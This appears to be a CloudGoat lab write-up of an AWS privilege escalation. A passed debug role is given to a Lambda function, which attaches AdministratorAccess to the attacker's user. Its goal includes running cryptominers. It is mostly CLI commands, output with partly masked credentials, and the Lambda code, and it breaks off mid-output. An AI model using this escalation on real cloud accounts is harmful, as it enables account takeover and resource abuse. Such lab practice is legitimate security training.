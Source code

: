 ###### Potential attack plan
1. Create Assume the CG-Manager Role
2. Create a Lmabda Function and pass the CG-Debug role to it.
3. Have the Lambda Function provide us with administrator access when it runs.
4. We do whatever we want to like running crytominers, 

###### Create Assume the CG-Manager Role
- Assume role command  creating
```bash
aws sts assume-role --role-arn arn:aws:iam::381491847637:role/cg-lambdaManager-role-cgidbsi5rpua6g --role-session-name lambdamanager --profile chris
{
    "Credentials": {
        "AccessKeyId": "ASIAVRUVPUHK7V****",
        "SecretAccessKey": "QPEXos101qM+fO8exQWhl+/",
        "SessionToken": "IQoJb3JpZ2luX2V********oSTEp4V4eOgs42dFW50EUa",
        "Expiration": "2025-05-25T02:14:36+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAVRUVPUHK32K2UVGKE:lambdamanager",
        "Arn": "arn:aws:sts::381491847637:assumed-role/cg-lambdaManager-role-cgidbsi5rpua6g/lambdamanager"
    }
}
```
- Added the profile 
```bash
aws configure --profile lambdamanager
echo 'aws_secret_access_key = IQoJb3JpZ2luX2V********oSTEp4V4eOgs42dFW50EUa' >> ~/.aws/credentials
```
- View the assumed role
```bash
aws sts get-caller-identity --profile lambdamanager
{
    "UserId": "AROAVRUVPUHK32K2UVGKE:lambdamanager",
    "Account": "381491847637",
    "Arn": "arn:aws:sts::381491847637:assumed-role/cg-lambdaManager-role-cgidbsi5rpua6g/lambdamanager"
}
```
- Lambda fucntion name it as lambda_function.py
```bash
cat lambda_function2.py
import boto3

def lambda_handler(event, context):
    iam = boto3.client('iam')
    iam.attach_user_policy(
        UserName='chris-cgidbsi5rpua6g',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return "Policy attached!"
```
- Zip the file we can upload only the .zip file
```bash
zip -r lambda_function.py.zip lambda_function.py
```
- Create afucntion in the AWS
```bash
aws lambda create-function --function-name admin_function --runtime python3.9 --role arn:aws:iam::381491847637:role/cg-debug-role-cgidbsi5rpua6g --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdamanager --region us-east-1
{
    "FunctionName": "admin_function",
    "FunctionArn": "arn:aws:lambda:us-east-1:381491847637:function:admin_function",
    "Runtime": "python3.9",
```